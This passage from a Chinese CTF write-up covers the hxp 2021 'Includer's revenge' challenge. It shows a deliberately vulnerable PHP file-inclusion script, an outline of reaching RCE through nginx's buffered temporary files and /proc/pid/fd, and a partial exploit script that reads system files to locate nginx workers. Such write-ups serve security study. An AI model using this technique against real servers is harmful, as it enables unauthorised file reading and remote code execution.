```c

    while(1) {
        sleep(10);	// 模拟进程挂起
    }
    // close(fd);
    return 0;
}
```

![image-20230314165337847](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230314165337847.png)

可以看到unlink执行之后“文件”依然存在于/proc/PID/fd/3中，并且可以写入并被php包含`include '/proc/xxx/fd/3';`

*注意这里临时文件的产生也和上面的php有一样的行为，对于过大的Request Body也会产生临时文件，不多赘述

### [hxp 2021]Includer's revenge

```php
<?php
($_GET['action'] ?? 'read' ) === 'read' ? readfile($_GET['file'] ?? 'index.php') : include_once($_GET['file'] ?? 'index.php');
```

有点棘手的是生成缓存文件的proc目录、pid我们都不知道， 也没有上一道题里的目录遍历，只能爆破了

整个利用过程：

1. 请求一个php大文件产生fastcgi缓存
2. 爆破/proc/pid/fd/找到被删除的文件
3. 多重链接绕过include_once，rce

exp.py

```python
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes
r  = requests.get(URL, params={
    'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

```